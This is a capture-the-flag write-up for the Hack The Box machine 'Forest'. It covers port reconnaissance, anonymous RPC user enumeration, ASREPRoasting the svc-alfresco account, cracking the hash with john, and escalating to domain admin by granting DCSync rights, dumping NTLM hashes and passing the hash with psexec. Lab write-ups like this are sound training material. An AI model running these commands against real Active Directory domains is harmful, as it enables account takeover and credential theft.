


# Forest

### Reconnaissance

- port 88 kerberos
- port 135 RPC
- port 139 NetBIOS
- port 389 LDAP
- port 445 SMB FQDN: FOREST.htb.local
- port 464 kpasswd5?
- port 593 RPC
- port 636 LDAPS? (tcpwrapped)
- port 3268 LDAP
- port 3269 LDAPS? (tcpwrapped)
- port 5985 HTTP Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- port 9389 .Net message framing
- port 47001 HTTP Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- port 49664 RPC
- port 49665 RPC
- port 49666 RPC
- port 49667 RPC
- port 49671 RPC
- port 49676 RPC over HTTP 1.0
- port 49676 RPC
- port 49677 RPC
- port 49682 RPC
- port 49701 RPC

**SMB**

Listing shares with `smbclient -L -N \\10.10.10.161` shows that anonymous SMB access is enabled even though
no shares are listed. This also gives the domain: `FQDN: FOREST.htb.local`

We can use `rpcclient -U "" 10.10.10.161 -N` to connect with an anonymous session and use 
`rpcclient$> enumdomusers` to enumerate the domain users:

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Query user info for svc-alfresco with `rpcclient$> queryuser 0x47b`

```
        User Name   :   svc-alfresco
        Full Name   :   svc-alfresco
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Mon, 23 Sep 2019 12:09:48 IST
        Logoff Time              :      Thu, 01 Jan 1970 01:00:00 IST
        Kickoff Time             :      Thu, 01 Jan 1970 01:00:00 IST
        Password last set Time   :      Sat, 09 Nov 2024 13:23:13 GMT
        Password can change Time :      Sun, 10 Nov 2024 13:23:13 GMT
        Password must change Time:      Thu, 14 Sep 30828 03:48:05 IST
        unknown_2[0..31]...
        user_rid :      0x47b
        group_rid:      0x201
        acb_info :      0x00010210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000001
        logon_count:    0x00000006
        padding1[0..7]...
        logon_hrs[0..21]...
```

**LDAP**

We can also use `ldapsearch` to enumerate domain objects with ldap queries

`ldapsearch -H ldap://10.10.10.161:389 -x -b "dc=htb,dc=local"`

**User**

Googling svc-alfresco shows documentation for Alfresco Process Services. In the Authentication section for
Kerberos and Active Directory we can see that it requires the service user to not require Kerberos 
preauthentication. This means the `svc-alfresco` user is vulnerable to ASREPRoasting and we can potentially 
crack the password by requesting a TGT

### Foothold

Use Impacket's GetNPUsers to request a TGT and crack the hash to obtain the password for svc-alfresco

Request a TGT:

`impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass`

Crack it with john to obtain svc-alfresco's password:

`john hash.txt -w=rockyou.txt`

We can now use Evil-WinRM to get RCE on the target as svc-alfresco

### Privilege Escalation

**Method 1**

Abuse GenericAll privilege of Account Operators over Exchange Windows Permissions group to add a user and 
grant that user DCSync permissions

Add user to the group:

```
net user test Password123 /add /domain
net group "Exchange Windows Permissions" test /add
# allows remote access using wmiexec or psexec
net localgroup "Remote Management Users" test /add
```

Give our user DCSync privileges using PowerView:

```
$pass = ConvertTo-SecureString "Password123" -AsPlain -Force
$cred = New-Object System.Management.Automation.PsCredential("htb\test", $pass)
Add-ObjectACL -PrincipalIdentity test -Credential $cred -Rights DCSync
```

We can now use impacket-secretsdump to dump NTLM hashes for all Domain users

`impacket-secretsdump test@10.10.10.161`

Use psexec or wmiexec to get RCE as System or Administrator

`impacket-psexec Administrator@10.10.10.161 -hashes <NTLM hash>`



`impacket-wmiexec Administrator@10.10.10.161 -hashes <NTLM hash>`



**Method 2**

TODO: add method from here https://blog.cyberadvisors.com/technical-blog/blog/account-operators-privilege-escalation

**Method 3**

TODO: add bloodhound method using PowerView for user creation isntead of net user
